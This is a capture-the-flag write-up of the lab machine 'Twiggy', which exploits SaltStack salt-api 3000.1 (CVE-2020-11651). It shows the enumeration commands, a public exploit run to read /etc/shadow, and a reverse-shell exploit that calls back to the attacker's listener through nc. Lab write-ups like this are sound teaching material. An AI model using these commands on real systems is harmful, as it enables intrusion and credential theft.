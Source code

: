 ```yaml
---
title: "Proving Grounds - Twiggy"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, SaltStack]
mermaid: true
image: ../assets/img/provingrounds/offsec.jpeg
---
```


Twiggy was an insightful machine focused on exploiting a SaltStack vulnerability. 

The machine required initial enumeration to identify open services, followed by a specific focus on the web service running on port 8000. 

By identifying and leveraging the `salt-api` service, a known exploit for SaltStack 3000.1 was used to gain access and execute a reverse shell. 

This machine provided practical experience in handling and exploiting SaltStack configurations.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify SaltStack]
    B -->|Web Service on 8000| C[Explore SaltStack API]
    C -->|Find Exploit| D[Execute Exploit]
    D -->|Gain Access| E[Execute Reverse Shell]
    E -->|Obtain Access| F[Privilege Escalation]
    F -->|SaltStack Privilege Escalation| G[Capture Evidence]
    G -->|Success| H[Completion]
```


## Information Gathering

### Port Scan

---

- `nmap -sS -Pn -n -T4 -p- --open 192.168.177.62`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled.png)
    
- `nmap -sVC -Pn -n -p 22,53,80,4505,4506,8000 192.168.177.62`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%201.png)
    

## Enumeration

### HTTP 8080

---

- [http://192.168.177.62:8000/](http://192.168.177.62:8000/) → *This looks like some clients for the webserver.*
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%202.png)
    

So i decided to try access some url’s that are mistaken on purpose.

- [http://192.168.177.62:8000/local](http://192.168.177.62:8000/local) → *Powered by* CherryPy 5.6.0
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%203.png)
    

- `feroxbuster -u http://192.168.177.62:8000 -k -C 404,403,500  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%204.png)
    

- [http://192.168.177.62:8000/login](http://192.168.177.62:8000/login) → Says “Please log in”
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%205.png)
    

- `curl -X POST http://192.168.177.62:8000/login -d "username=admin&password=admin"` → Unauthorized
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%206.png)
    

- Intercepting the login request in the burp 
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%207.png)
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%208.png)
    
- Verifying the response of the requisition
    
    ```jsx
    HTTP/1.1 200 OK
    Server: nginx/1.16.1
    Date: Thu, 04 Jul 2024 20:29:32 GMT
    Content-Type: application/json
    Content-Length: 43
    Connection: close
    Access-Control-Expose-Headers: GET, POST
    Vary: Accept-Encoding
    Allow: GET, HEAD, POST
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Origin: *
    Www-Authenticate: Session
    Set-Cookie: session_id=178a37984d63e3d4ea4a4a39d686e300e2256436; expires=Fri, 05 Jul 2024 06:29:32 GMT; Path=/
    X-Upstream: salt-api/3000-1
    
    {"status": null, "return": "Please log in"}
    ```
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%209.png)
    

I also can get the same answer with this command:

- `curl -v -X GET http://192.168.177.62:8000/login`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2010.png)
    

It have the **`X-Upstream: salt-api/3000-1`.**

## Exploitation

### Salt-API

That information about the requisition, indicates the request was handled upstream by a service identified as `salt-api` version `3000-1`. This suggests the server might be running SaltStack, a configuration management tool.


- Search in the google for `salt-api/3000-1` → There’s an exploit for SaltStack 3000.1
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2011.png)
    

- [https://github.com/jasperla/CVE-2020-11651-poc/tree/master](https://github.com/jasperla/CVE-2020-11651-poc/tree/master)

- `python3 exploit.py -m 192.168.177.62 -r /etc/shadow`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2012.png)
    

Once that i wanted an reverse shell, this script wasn’t promisor, so i found this one:

- [https://github.com/bravery9/SaltStack-Exp/tree/master](https://github.com/bravery9/SaltStack-Exp/tree/master)

- `python3 exp.py --master 192.168.177.62 -lh 192.168.45.227 -lp 80`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2013.png)
    

- `rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Twiggy/Untitled%2015.png)